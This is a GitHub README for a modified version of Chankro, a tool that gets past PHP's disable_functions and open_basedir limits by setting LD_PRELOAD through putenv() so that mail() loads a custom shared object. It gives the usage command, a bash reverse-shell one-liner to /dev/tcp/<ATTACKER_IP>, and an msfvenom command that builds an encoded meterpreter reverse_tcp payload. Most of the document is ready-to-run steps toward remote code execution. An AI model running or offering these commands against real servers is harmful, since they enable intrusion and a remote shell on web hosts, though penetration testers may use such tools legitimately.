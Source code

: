 <img src="/images/example.jpg">

# Chankro

Chankro is an impressive tool designed by TarlogicSecurity for bypassing PHP's __disable_functions__ and __open_basedir__ restrictions. This repository contains a modified version of Chankro. For the original source, visit [Chankro](https://github.com/TarlogicSecurity/Chankro).

## How it works

In Linux, when the mail() function is executed in PHP, it triggers the execution of a binary called sendmail. Leveraging the availability of the putenv() function, we can set the "LD_PRELOAD" environment variable, which allows us to preload a custom shared object. This shared object executes a custom payload—either a binary or a Bash script—without being constrained by PHP's restrictions. This enables us to establish actions like a reverse shell.

## Example:

The usage syntax is straightforward:

```
$ python chankro.py -a 64 -p rev.sh -o chankro.php -t /var/www/html
```

Note:
1. The target path represents the absolute location where our .so file will be deposited.
2. The payload is binary file of shell like sh, meterpreter, etc. E.g.:
	 ```
	 $ echo "bash -c 'sh -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1'" > rev.sh
	 ```
	 ```
	 $ msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -e x86/shikata_ga_nai -f elf -o payl86.elf
	 ```
   Please ensure you replace <ATTACKER_IP> and <ATTACKER_PORT> with the actual IP address and port you intend to use for the reverse shell connection.

## Install

### Requirements
1. Python 3

### Git

```
 $ git clone https://github.com/mrizkihidayat66/chankro-reborn.git
 $ cd chankro-reborn
 $ python chankro.py -h
```
Please make sure to have Python 3 installed before using Chankro. After cloning the repository using Git, navigate to the appropriate directory and consult the help (-h) command for further guidance on using the tool.

### Reference
1. [Asem Eleraky](https://melotover.medium.com) - [How I bypassed disable_functions in php to get a remote shell](https://infosecwriteups.com/how-i-bypassed-disable-functions-in-php-to-get-a-remote-shell-48b827d54979)
